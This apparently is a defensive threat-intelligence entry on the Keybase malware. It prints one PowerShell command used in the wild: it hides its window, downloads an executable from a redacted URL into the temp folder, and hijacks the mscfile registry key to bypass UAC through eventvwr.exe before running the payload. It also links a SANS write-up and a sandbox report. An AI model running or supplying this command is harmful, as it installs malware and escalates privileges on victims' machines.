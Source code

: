 ## Keybase


#### Commands
---

* Powershell.exe

``
-w hidden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://[URL],'%TEMP%\\pu457.exe') & reg add HKCU\\Software\\Classes\\mscfile\\shell\\open\\command /d %TEMP%\\pu457.exe /f & eventvwr.exe & PING -n 15 127.0.0.1>nul & %TEMP%\\pu457.exe
``

#### Regular Expressions
---

``
``

#### Resources
---

Technical write-ups:
* https://isc.sans.edu/forums/diary/Malicious+Office+files+using+fileless+UAC+bypass+to+drop+KEYBASE+malware/22011/

Sandbox reports:
* https://www.hybrid-analysis.com/sample/e431bc1bacde51fd39a10f418c26487561fe7c3abee15395314d9d4e621cc38e?environmentId=100

Notes:



 
